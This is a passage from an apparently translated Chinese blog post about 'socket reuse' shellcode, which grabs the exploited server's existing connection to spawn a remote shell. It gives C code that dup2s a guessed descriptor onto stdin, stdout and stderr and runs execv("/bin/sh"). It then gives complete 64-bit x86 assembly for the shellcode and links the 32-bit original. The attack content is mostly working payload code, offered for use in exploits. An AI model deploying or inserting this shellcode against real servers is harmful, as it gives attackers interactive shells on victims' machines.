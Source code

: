 ```
int sck = dup (0) - 1; // Duplicate stdin
dup2 (sck, 0);
dup2 (sck, 1);
dup2  (sck, 2);
execv ("/bin/sh", NULL);
```

看…根本就没有使用套接字代码！如果我们把它变成一个shellcode，并且设法利用远程服务器的漏洞来运行该代码，我们就能够获得一个shell来访问远程机器，而这个shell所使用的连接，正好就是原来向远程服务器投递利用代码的那个连接。

当然，也你已经注意到这种技术存在一些缺点。就像我们所提到的那样，如果服务器比较繁忙的话（同时建立许多连接），这种方法就很难奏效了。此外，正常的服务器会在变成守护进程之前关闭所有的文件描述符，因此我们可能需要尝试使用其他值来推测文件描述符。

这个技术是前一段时间跟@_py进行讨论的时候，由他想出来的。我们当时检查的原始代码可以在这里找到：

```
http://shell-storm.org/shellcode/files/shellcode-881.php4
```

但是，这是一个32位代码，所以我重新制作了对应的64位版本，以及一个运行漏洞利用代码的Perl脚本。

<br>

**64位版本的Shellcode**

下面的代码您就将就着看吧(我这才发现自己的汇编技能真是生锈了)，不过它确实可以正常运行，并且只比原来的32bits版本长了3个字节。我的64位版本的Shellcode如下所示：

```
section .text
global _start
_start:
         ;; s = Dup (0) - 1
         xor rax, rax
         push rax
         push rax
         push rax
         pop rsi
         pop rdx
         push rax
         pop rdi
         mov al, 32
         syscall                  ; DUP (rax=32) rdi = 0 (dup (0))
 
         dec rax
         push rax
         pop rdi            ; mov rdi, rax  ; dec rdi
 
         ;; dup2 (s, 0); dup2(s,1); dup2(s,2)
loop:        mov al, 33
         syscall                       ; DUP2 (rax=33) rdi=oldfd (socket) rsi=newfd
         inc rsi
         mov rax,rsi
         cmp al, 2          ; Loop 0,1,2 (stdin, stdout, stderr)
         
         jne loop
 
         ;; exec (/bin/sh)
         push    rdx                             ; NULL
         mov qword rdi, 0x68732f6e69622f2f    ; "//bin/sh"
         push         rdi                              ; command
         push        rsp                     
         pop         rdi                      
         
         push        rdx            ;env
         pop         rsi             ;args
         
        mov     al, 0x3b ;EXEC (rax=0x4b) rdi="/bin/sh" rsi=rdx=
        syscall
```